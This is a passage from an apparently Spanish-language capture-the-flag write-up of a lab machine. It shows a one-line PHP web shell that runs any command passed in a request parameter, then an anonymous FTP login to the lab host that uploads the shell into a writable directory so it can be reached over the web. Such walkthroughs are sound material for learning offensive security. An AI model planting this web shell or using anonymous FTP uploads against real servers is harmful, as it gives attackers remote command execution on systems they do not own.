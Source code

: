Se tiene la misma estructura que encontramos vía ftp, por lo que ya debemos estar pensando en subir un archivo php para lograr la ejecución de comandos a nivel de sistema.

```bash
❯ cat neutrino.php
───────┬───────────────────────────────────────────────────────────────
       │ File: neutrino.php
───────┼───────────────────────────────────────────────────────────────
   1   │ <?php
   2   │     echo "<pre>" . shell_exec($_REQUEST['cmd']) . "</pre>"
   3   │ ?>
───────┴───────────────────────────────────────────────────────────────
```

```bash
❯ ftp 10.10.111.163
Connected to 10.10.111.163.
220 (vsFTPd 3.0.3)
Name (10.10.111.163:k4miyo): anonymous
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> put neutrino.php
local: neutrino.php remote: neutrino.php
200 PORT command successful. Consider using PASV.
553 Could not create file.
ftp>
```

Vemos que no nos deja subir el archivo, así que probemos en el directorio **ftp**:

```bash
ftp> cd ftp
250 Directory successfully changed.
ftp> put neutrino.php
local: neutrino.php remote: neutrino.php
200 PORT command successful. Consider using PASV.
150 Ok to send data.
226 Transfer complete.
65 bytes sent in 0.00 secs (1.0507 MB/s)
ftp> 
```

Hemos logrado subir el archivo y ya podemos visualizarlo vía web:

![""](/assets/images/thm-startup/startup3.png)
